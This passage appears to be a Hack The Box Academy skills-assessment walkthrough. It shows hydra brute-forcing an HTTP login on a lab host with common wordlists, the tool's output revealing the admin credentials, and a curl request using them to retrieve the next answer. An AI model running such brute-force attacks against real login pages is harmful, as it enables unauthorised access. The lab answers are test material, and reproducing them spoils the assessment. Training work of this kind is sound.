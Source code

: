 Subsequently, students will use `hydra` to perform brute-forcing using the `http-get` method and the downloaded wordlists to attain a valid username and password:

Code: shell

```shell
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt STMIP http-get / -s STMPO
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-guzdqpf4yp]─[~]
└──╼ [★]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 83.136.254.158 http-get / -s 35620

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 06:25:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-get://83.136.254.158:35620/
[35620][http-get] host: 83.136.254.158   login: admin   password: {hidden}
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 06:26:01
```

Answer: `Admin123`

# Skills Assessment Part 1

## Question 2

### "After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?"

Students will send a GET request using `cURL` and specify the found credentials (`admin:Admin123`) to attain the username between the `<span>` tag for the second part of the Skills Assessment:

Code: shell

```shell
curl http://STMIP:STMPO -u "admin:Admin123" | tail
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-guzdqpf4yp]─[~]
└──╼ [★]$ curl http://83.136.254.158:35620 -u "admin:Admin123" | tail 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   951  100   951    0     0  27649      0 --:--:-- --:--:-- --:--:-- 27970
        }
    </style>
</head>

<body>
    <h1>Congratulations!</h1>
    <p>This is the username you will need for part 2 of the Skills Assessment<span class="flag">{hidden}</span></p>
</body>

</html>
```
